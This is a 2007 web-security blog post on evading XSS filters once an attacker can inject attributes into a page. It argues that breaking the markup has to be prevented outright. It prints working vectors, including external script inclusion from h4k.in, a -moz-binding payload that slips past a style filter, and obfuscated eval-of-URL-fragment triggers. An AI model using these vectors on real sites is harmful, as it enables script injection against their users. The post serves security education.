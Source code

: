 ```yaml
---
title: The New Dawn Of Filter Evasion
author: mario-heiderich
date: Fri, 13 Jul 2007 06:57:16 GMT
template: post.pug
---
```


This article is about the most important phase when attacking web applications. The phase when the markup has just been broken and the attacker will try to inject his own markup, script code or other data - let's call it the PMBP (post-markup-breaking-phase). This phase is mostly possible to occur when quotes aren't correctly sanitized or when input is placed between two tags. In this article we will set the focus on the first variant - the attribute injection. And we will prove that protecting your markup from being broke into is the very most important task in client side security.

## Basic filtering

Many developers use standard filter functions to sanitize their output. Mostly a good idea, but the developer has to know what his filters and the attacker is capable of. Some say that the developer is to blame for the bugs, because he/she doesn't implement properly the security examples as they come from the books. Developers usually does not have enough _time_ and knowledge for cutting edge security research. Mostly of the time they need to chose between stripping the tags, converting HTML and special characters to entities, urlencoding the input, using approaches like [escapeshellcmd()](http://php.net/manual/en/function.escapeshellcmd.php) or even combining those filtering methods, in order to secure the applications they are working on. Usually those methods aren't used and combined with exact knowledge and so they tear open security holes or even cripple the user experience in some situations. Did you know that PHP's [escapeshellcmd()](http://php.net/manual/en/function.escapeshellcmd.php) leaves the characters `.-=a-Z0-9, space and /` untouched? This function is recommended by several books as a good filter alternative.

## Get it running

So what is the attacker able to do when he/she breaks out the markup, and injects new tags and attributes? When new tags can be injected the site is considered owned - even if there are filters that block script tags and iframes. It is interesting to look at the attributes. Depending on the browser - we're talking about the two major ones in this article - there are several ways to inject attributes that will fire JavaScript without requiring user interaction. If the attacker breaks out a tag which points to binary contents, like a link tag, an img tag or even an iframe, embed or object we can use the onerror handler and provide a crippled source attribute. Once the browser tries to load a source like _xxx_ it will fail and fire the event - for which we already injected a handler (javascript function call). On the other hand, we can utilize the style tag to create XSS without user interaction. Both gecko based browsers and all important IE versions ship proprietary selectors and methods to execute JavaScript within a style tag or attribute - just to name a few, we have: _-moz-binding_ and _expression()_. In order to exploit these situations the attacker has to inject more code. I've seen several websites where developers seemed to know that and had implemented filters that stripped a bunch of special chars - sometimes dot and brackets, sometimes other stuff - to avoid the injection of active code. Unfortunately, there's a way to circumvent all of them.

## Circumvent the ignorance

One of the most common filters - never understood why - is the stripping of the pattern _http://_. It seems thousands of developers out there believe that without this string it's not possible to get an external inclusion running and furthermore without an external inclusion you can't do much bad stuff on the targeted application. This is not true. It has been moths ago since I've published a miniaturized vector for script inclusions - 20 characters of length which does not have the _http://_ string. The cross browser version is 27 characters in length. Same goes for filtering the dot, brackets, spaces etc. Here is an example:

	<script src=//h4k.in 

Some filters transform all user input to uppercase letters - which is more useless than stripping _http://_ string. A major portal about a server side programming languages once suffered from a bad filter which stripped out all event handlers beginning with _on\w+_ and _style_. This is good example. Plain stripping will **never** make sense - the filter was easily circumvented by the following:

	sstyle="foobar"tstyle="foobar"ystyle="foobar"lstyle="foobar"estyle="foobar"=-moz-binding:url(http://h4k.in/mozxssc.xml#xss)>foo

But it's even getting better. Some weeks ago a pretty new and very intelligent kind of filter evading vectors came to light - these vectors were capable of carrying large payloads in totally stealth mode. These vectors does not require externally hosted scripts to perform the task. This is the reason why they are called [self contained XSS](/blog/one-drop-on-a-spider-web).

## CSO's nightmare

Self contained XSS is mostly based on the fact, that it's possible to pass values via URL, that are seen by the client only, but not by the server. Those values are called fragment identifiers. Everything passed behind the URL hash (#) is only visible to the client which includes the JavaScript runtime engine. So, the attacker just needs to inject a code snippet that evaluates the contents of this part of the URL - which is mostly very short and contains no information of what the real payload consists of. Due to the very dynamic nature of JavaScript it is possible to create _myriads_ of variants of those payload triggers and in combination with browser peculiarities the possibilities of creating these triggers become uncountable. Here is an exmaple

	eval.call(this,unescape.call(this,location))
	code:_=eval,__=unescape,___=document.URL,_(__(___)) code:with(location)with(hash)eval(substring(1))

Of course, it's also possible to rip these functions apart, shuffle their fragments and compose them back together at the end like this:

	l=0||'str',m= 0||'sub',x= 0||'al',y= 0||'ev',g= 0||'tion.h',f= 0 ||'ash',k= 0||'loca',d=(k)+(g)+(f),a

## Conclusion and credits

So - why are we showing all those vectors and talking about all the possibilities to hide, obfuscate possible attacks and evade filter mechanisms? To prove a point, I must say! Once the attacker breaks the markup he/she becomes in charge of that content - whether there's a filter between the application and the user or not. There's no way of finding a perfect balance between effective filtering and not crippling the user's experience. To make it short - the PMBP **must** never happen. In order to make this article a dirty cliffhanger - in the next part we will talk about how to avoid this exact phase. We'll learn how to make sure the user won't be annoyed by your filter and still guaranteeing stalwart security too. Credits for the shown vectors go the author, the [PHPIDS Group](http://groups.google.de/group/php-ids/), [Giorgio Maone](http://maone.net/), [Kishor](http://wasjournal.blogspot.com/), [Martin Hinks](http://the-mice.co.uk/switch/), [Christian Matthies](http://christ1an.blogspot.com/), [sirdarckcat](http://www.sirdarckcat.net/) and the guys from [sla.ckers.org](http://sla.ckers.org/forum/).
